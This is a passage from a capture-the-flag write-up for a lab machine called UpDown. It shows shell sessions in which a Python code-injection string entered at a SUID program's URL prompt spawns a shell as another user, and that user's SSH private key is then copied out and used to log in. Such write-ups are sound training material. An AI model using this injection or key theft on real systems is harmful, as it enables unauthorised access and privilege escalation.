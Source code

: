 Normally I would try to create my own requests.py file, that way my script is called when the requests module is imported, but I don't have write access to the directory:

```
www-data@updown:/home/developer/dev$ cat >> requests.py
bash: requests.py: Permission denied
```

We can however use `os.system` and inject commands into the SUID:

```
www-data@updown:/home/developer/dev$ whoami
www-data
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('bash')
developer@updown:/home/developer/dev$ whoami
developer
```

Cool, that worked. 

Trying to grab the user.txt flag we get a permission denied because we are still in the www-data group:

```
developer@updown:/home/developer$ ls -la
total 40
drwxr-xr-x 6 developer developer 4096 Jul  2 16:24 .
drwxr-xr-x 3 root      root      4096 Jun 22  2022 ..
lrwxrwxrwx 1 root      root         9 Jul 27  2022 .bash_history -> /dev/null
-rw-r--r-- 1 developer developer  231 Jun 22  2022 .bash_logout
-rw-r--r-- 1 developer developer 3771 Feb 25  2020 .bashrc
drwx------ 2 developer developer 4096 Aug 30  2022 .cache
drwxrwxr-x 3 developer developer 4096 Aug  1  2022 .local
-rw-r--r-- 1 developer developer  807 Feb 25  2020 .profile
drwx------ 2 developer developer 4096 Aug  2  2022 .ssh
drwxr-x--- 2 developer www-data  4096 Jun 22  2022 dev
-rw-r----- 1 root      developer   33 Jul  2 13:42 user.txt
developer@updown:/home/developer$ cat user.txt
cat: user.txt: Permission denied
developer@updown:/home/developer$ id
uid=1002(developer) gid=33(www-data) groups=33(www-data)
```

Luckily for us we can access developer's id_rsa key and SSH in.

Lets copy the id_rsa over to our attacking machine, change modes, and ssh in as developer:

```
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ chmod 600 id_rsa    
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ ssh -i id_rsa developer@siteisup.htb 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-122-generic x86_64)
```
